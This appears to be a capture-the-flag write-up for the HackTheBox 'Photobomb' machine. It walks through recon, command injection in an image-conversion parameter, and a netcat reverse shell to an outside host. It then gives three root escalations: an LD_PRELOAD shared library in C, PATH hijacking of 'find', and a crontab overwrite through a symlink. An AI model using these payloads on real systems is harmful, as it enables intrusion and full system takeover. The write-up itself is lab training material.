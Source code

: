 # HackTheBox - Photobomb

## NMAP

```bash
Nmap scan report for 10.10.11.182
Host is up (0.093s latency).
Not shown: 54171 closed tcp ports (conn-refused), 11362 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 (HTTP)
Visting the web server, it's going to redirect us to `photobomb.htb` so we need to add it in hosts file

<img src="https://i.imgur.com/mu9gGFI.png"/>

<img src="https://i.imgur.com/PtM6ejk.png"/>

<img src="https://i.imgur.com/lS4D4IV.jpg"/>

It shows a link which takes us to `/printer` that asks for credentials

<img src="https://i.imgur.com/QwZt6cC.png"/>

We can find the credentials by checking the source of the site which shows a js file having the credentials

<img src="https://i.imgur.com/P3TmMxa.png"/>

With this, we can access the printer page

<img src="https://i.imgur.com/Z9LV7Vo.jpg"/>

What this page does it converts the image into either png or jpg into the specified dimensions displayed on the site

<img src="https://i.imgur.com/GmOfo4E.png"/>

If we remove any of the POST paramter when downloading the file, it's going to show a stack error revealing that it's using `ruby sinatra` server

<img src="https://i.imgur.com/q2ukvuK.png"/>

<img src="https://i.imgur.com/myikUAY.png"/>

## Foothold

We can see from the stackerror that the `filetype` parameter is being checked if it contains either `png` or `jpeg`, so we can try command injection there, I tried appending the `id` command with `;` but it didn't returned any output

<img src="https://i.imgur.com/1qn386h.png"/>

So I tried making a curl request to my python server which was successful

<img src="https://i.imgur.com/a2USJVt.png"/>

<img src="https://i.imgur.com/4RWYzhI.png"/>

Using openbsd nc's reverse shell payload by making it url encoded

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.72 2222 >/tmp/f
```

<img src="https://i.imgur.com/ObmY4zn.png"/>

<img src="https://i.imgur.com/WA5Jtbi.png"/>

Stabilizing the shell with python3 

<img src="https://i.imgur.com/DKpN6Ns.png"/>

## Privilege Escalation (root)
Running `sudo -l` shows that we can run `cleanup.sh` as a root user

<img src="https://i.imgur.com/qHywqqs.png"/>

## Method 1

This is allowing us to set environment variables, which means we can set `LD_PRELOAD` path which contains the path to the shared library that will be loaded before anything else, so we can abuse this by compiling this program into a shared library which will set bash a SUID and will spawn it with `bash -p` giving us a root shell

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
gcc -fPIC -shared -nostartfiles -o ./load.so ./test.c
```

<img src="https://i.imgur.com/KmhZQzW.png"/>

```bash
sudo LD_PRELOAD=/tmp/load.so /opt/cleanup.sh
```

<img src="https://i.imgur.com/k0bWV39.png"/>

## Method 2

Checking the script which we can run

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

This script is switching to `/home/wizard/photobomb`, where with `-s` it checks if `photobomb.log` exists and is empty, with `-L` and `!` it checks if the logfile isn't a symlink to avoid symlinking and then overwrites the content of photobomb.log to photobomb.log and clears out the the contents of the log file, then with `find` it look for all jpg files and makes root the owner of those images

Now here `find` isn't being ran through it's absolute path which means that we can abuse it by making a file which will spawn bash for us by setting environment variables through which we can achieve PATH variable exploit

<img src="https://i.imgur.com/o29rWJf.png"/>

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

<img src="https://i.imgur.com/05ox0ch.png"/>

## Method 3

Going back to the script, the if condition checks for `photobomb.log` but not `photobomb.log.old` so we can symlink the old log file with `/etc/crontab` and include the crontab in the original log file which will basically overwrite the crontab file

So symlinking the file with cronab 

```bash
ln -sf /etc/crontab photobomb.log.old
```

<img src="https://i.imgur.com/hHaSdIe.png"/>

Now place a bash script which will make bash a SUID or you can place a reverse shell there

```bash
#!/bin/bash
chmod +s /bin/bash
```

<img src="https://i.imgur.com/1zvfK9N.png"/>

```bash
* * * * * root /tmp/shell.sh
```

Putting the cronab in `photobomb.log` file which will overwrite the old log file which will then overwrite the cronab file, making bash a SUID and then we can spawn bash with `-p` to execute it as the SUID owner which is root

<img src="https://i.imgur.com/ZKOB3aq.png"/>

## References

- https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/
- https://medium.com/r3d-buck3t/overwriting-preload-libraries-to-gain-root-linux-privesc-77c87b5f3bf8
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation
